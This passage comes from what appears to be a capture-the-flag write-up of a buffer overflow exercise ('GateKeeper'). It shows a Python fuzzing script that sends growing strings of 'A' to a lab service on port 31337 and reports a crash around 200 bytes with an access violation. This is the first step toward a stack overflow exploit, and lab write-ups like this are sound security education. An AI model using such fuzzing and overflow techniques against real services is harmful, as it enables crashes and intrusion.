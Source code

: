 - Now we can start sending a bunch of characters (A) using the script

```python
#!/usr/bin/env python3

import socket, time, sys
ip = "192.168.88.132"
port = 31337
timeout = 5

try:
	string = "A" * 100
	while True:
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.settimeout(timeout)
		s.connect((ip, port))
		print("Fuzzing with {} bytes".format(len(string)))
		data_to_send = f"{string}\r\n"
		s.send(data_to_send.encode())
		response = s.recv(1024).decode()
		s.close()
		string += 100 * "A"
		time.sleep(1)
except:
    print("Fuzzing crashed at {} bytes".format(len(string)))
    sys.exit(0)

```

- so after running the script, we can see that the application crashed at 200 bytes, meaning our Offset is in this range of characters. In our debugger, we can see that we have an Access Violation error

![](assets/GateKeeper_assets/Pasted%20image%2020231203133726.png)

![](assets/GateKeeper_assets/Pasted%20image%2020231203133752.png)
